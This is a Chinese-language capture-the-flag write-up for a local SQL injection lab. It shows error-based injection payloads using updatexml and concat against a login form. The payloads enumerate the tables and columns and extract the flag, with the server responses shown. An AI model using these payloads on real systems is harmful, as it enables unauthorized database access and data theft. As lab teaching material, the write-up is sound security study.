

# SQL injection Q2

## 題目

- http://127.0.0.1/login.php
- http://127.0.0.1/user.php

## ENV

使用 `q2\docker-compose.my.yml` 內的 compose 建立含 zap 的環境

前往 `http://127.0.0.1:8080/zap` start ZAP 並進行 sql injection 攻擊。

## SOLUTION

在 `http://127.0.0.1/login.php` 頁面配合瀏覽器工具可以發現以下兩個線索

- 原始碼提到加入 `?tips=1` 可以顯示提示信息(暗示使用顯示出錯注入漏洞)
- 登入的 url 是 POST `http://127.0.0.1/login.php`，表單屬性為 `name` 和 `pass`



使用 zap 嘗試打 POST API 可以順利得到合理回饋

header

```
POST http://web-service:80/login.php?tips=1 HTTP/1.1
host: web-service
pragma: no-cache
cache-control: no-cache
content-length: 21
content-type: application/x-www-form-urlencoded
```

body

```
name=Alice&pass=2266
```


隨便在 body 參數中加入 `'` 可以破壞 SQL 語句，得到錯誤回饋，透過工具可以在 body 中收到

```
string(156) "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Alice''' at line 1"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

既然有顯示錯誤，那就使用顯示錯誤注入

使用 body，以下說明命令的細節

- 使用 OR 可以在 SQL 中追加任意判斷式，但不會輸出結果
- updatexml 可以用來執行 XML 操作，但我們主要的目的是利用他在出錯時會把第二個參數輸出的特性，因此首尾兩個參數是亂填的，目的是使其報錯，並輸出我們想要的結果
- 使用 concat 函數的目的是把表格轉型成字串才能作為 updatexml 的第二個參數，前後的 0x7e 是習慣，本體為 `~` 便於閱讀而已，可以另選用其他符號

```
name=Alice' OR updatexml(1, concat(0x7e, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()), 0x7e), 1);#&pass=2266
```

得到

```
string(34) "XPATH syntax error: '~fl4g,users~'"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

按照直覺，讀取 fl4g 表格的 col 名稱

```
name=Alice' OR updatexml(1, concat(0x7e, (SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='fl4g'), 0x7e), 1);#&pass=2266
```

```
string(28) "XPATH syntax error: '~flag~'"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

得到 fl4g 表格的結構

```
name=Alice' OR updatexml(1, concat(0x7e, (SELECT flag FROM fl4g), 0x7e), 1);#&pass=2266
```

```
string(50) "XPATH syntax error: '~n1book{login_sqli_is_nice}~'"
{"error":1,"msg":"\u8d26\u53f7\u4e0d\u5b58\u5728"}
```

成功取得 flag 的值。
